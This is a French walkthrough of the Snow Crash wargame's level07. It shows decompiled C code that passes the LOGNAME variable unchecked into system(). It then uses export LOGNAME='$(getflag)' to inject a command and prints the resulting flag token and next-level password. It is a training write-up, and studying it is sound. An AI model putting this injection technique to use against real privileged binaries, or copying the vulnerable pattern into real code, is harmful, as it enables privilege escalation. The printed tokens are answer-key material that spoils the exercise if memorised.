

# Snow Crash – Level07

## 🎯 Objectif
Exploiter une variable d’environnement manipulable (`LOGNAME`) dans un binaire SUID pour exécuter arbitrairement une commande et obtenir le flag.

---

## 📁 1. Fichiers disponibles

```bash
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

---

## 🔍 2. Analyse du binaire

En exécutant le binaire :

```bash
level07@SnowCrash:~$ ./level07
level07
```

Cela affiche la valeur de la variable d’environnement `LOGNAME`.

Pour comprendre, on extrait le binaire et on l’analyse via un outil comme `RetDec` :

```bash
scp -P 4242 level07@192.168.1.92:/home/user/level07/level07 .
retdec-decompiler.py level07
```



Code désassemblé simplifié :

```c
int main(int argc, char **argv)
{
    setresgid(getegid(), getegid(), getegid());
    setresuid(geteuid(), geteuid(), geteuid());

    char *env_val = getenv("LOGNAME");
    char *buffer;
    asprintf(&buffer, "/bin/echo %s", env_val);
    return system(buffer);
}
```

✅ On remarque que la commande appelée est `echo $LOGNAME`, ce qui est vulnérable à l’injection de commande.

---

## 🚀 3. Exploitation

En modifiant la variable d’environnement `LOGNAME` :

```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## 🔑 Mot de passe du niveau suivant

```
fiumuikeil55xe9cu4dood66h
```

---

## ✅ Résumé

- 🛠️ Vulnérabilité : Injection via variable d’environnement (`LOGNAME`)
- 📥 Exploitation : `export LOGNAME='$(getflag)'`
- 🏆 Token : `fiumuikeil55xe9cu4dood66h`
- 🔓 Mot de passe `level08` : `fiumuikeil55xe9cu4dood66h`
